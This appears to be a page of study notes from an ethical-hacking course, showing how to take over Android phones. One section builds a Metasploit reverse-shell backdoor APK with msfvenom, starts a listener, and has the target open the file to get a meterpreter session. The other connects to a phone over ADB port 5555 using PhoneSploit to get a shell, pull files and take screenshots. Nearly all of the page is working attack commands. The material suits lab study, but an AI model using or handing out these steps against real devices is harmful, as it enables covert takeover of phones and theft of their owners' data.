 ###### Hack an Android device by creating binary payloads using metasploit
>[!check] Using Binary Payloads
>- Using metasploit to creaate binary payloads to gain control of a use's phone
>- `service postgresql start`
>- `msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=[IP]  LPORT=4444 R > Desktop/Backdoor.apk`
>- Share the backdoor file with the host. Start up meterpeter
>- use exploit/multi/handler
>	- `set payload android/meterpreter/reverse_tcp` and press Enter
>	- `set LHOST 10.10.1.13`
>	- `exploit`
>- Open the program on the client
>- Back on the meterpreter select session 1 and your in!

###### Hack the Android platform through ADB using PhoneSploit
>[!check] Using PhoneSploit
>- Android Debug Bridge (ADB) is a versatile command-line tool that lets you communicate with a device. 
>- ADB facilitates a variety of device actions such as installing and debugging apps, and provides access to a Unix shell that you can use to run several different commands on a device.
>- Developers connect to ADB on Android devices by using a USB cable, but it is also possible to do so wirelessly by enabling a daemon server at TCP port 5555 on the device.
>	- `cd PhoneSploit Directory`
>	- `python3 -m pip install colorama`
>	- `python3 phonesploit.py`
>		- Press 3: connect a new phone
>		- Enter the Phone's IP- connects to phone on port 5555
>		- Press 4 : to access shell 
>		- Find a file that you would like to download/take
>		- exit
>		- press 7: screen shot a picture of the phone  
>		- press 14: displaying the installed apps on the target Android device
>		- press 15: to open any apps
>		- com.android.calculator2
>		- p
>			- Navigates to additional tools
>			- Press 18 :shows interface 
>			- 21 Netstat
>			- press 9 to download

> Using ADB
	adb connect 192.168.0.4:5555
	adb devices -l
	adb shell
	cd SD Card
	ls 
	cat file.txt

## Module 20: Cryptography
